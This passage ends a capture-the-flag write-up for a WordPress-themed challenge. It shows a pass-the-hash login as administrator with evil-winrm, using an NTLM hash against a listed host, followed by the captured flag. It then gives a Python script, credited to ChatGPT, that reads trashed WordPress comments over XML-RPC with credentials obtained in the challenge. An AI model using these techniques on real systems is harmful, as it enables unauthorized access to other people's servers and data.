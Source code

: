 
```sh
proxychains -q evil-winrm -i 94.72.112.254 -u administrator -H d8dabcadf488114f7c5a46604fb26235
```

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_29.png" alt="" position="center" style="border-radius: 8px;" >}}

Flag: `r00t{C3rtificate_f0r_grandline_wh4t_a_j0ke_I_can_for9e}`

## Extras

### Using xmlrpc.php

After finishing the CTF, I got this idea. Since I was playing around with xmlrpc, could we have just accessed the comment in trash using xmlrpc? Then we don't need to struggle with the 403 bypass. Even though xmlrpc functionality is limited. It can pretty much read most of the things on wordpress.

ChatGPT for the win. ChatGPT wrote for me this python script that I could use to read the hidden comment and flag. Awesome!

```py
import xmlrpc.client

# WordPress site XML-RPC URL
wp_url = "http://154.12.228.253/xmlrpc.php"

# WordPress login credentials
wp_username = "crocodile"
wp_password = "Winterseason1234"

# Create the XML-RPC client
client = xmlrpc.client.ServerProxy(wp_url)

# Define the parameters to get comments in the trash
comment_filter = {
    'status': 'trash',  # Filter comments with status 'trash'
}

# Call the wp.getComments method
try:
    comments = client.wp.getComments(0, wp_username, wp_password, comment_filter)

    # Check if any comments are found
    if comments:
        print("Comments in Trash:")
        for comment in comments:
            print(f"ID: {comment['comment_id']}")
            print(f"Post ID: {comment['post_id']}")
            print(f"Author: {comment['author']}")
            print(f"Content: {comment['content']}")
            print(f"Date: {comment['date_created_gmt']}")
            print("-" * 40)
    else:
        print("No comments found in the trash.")
except xmlrpc.client.Fault as e:
    print(f"Error occurred: {e}")
```
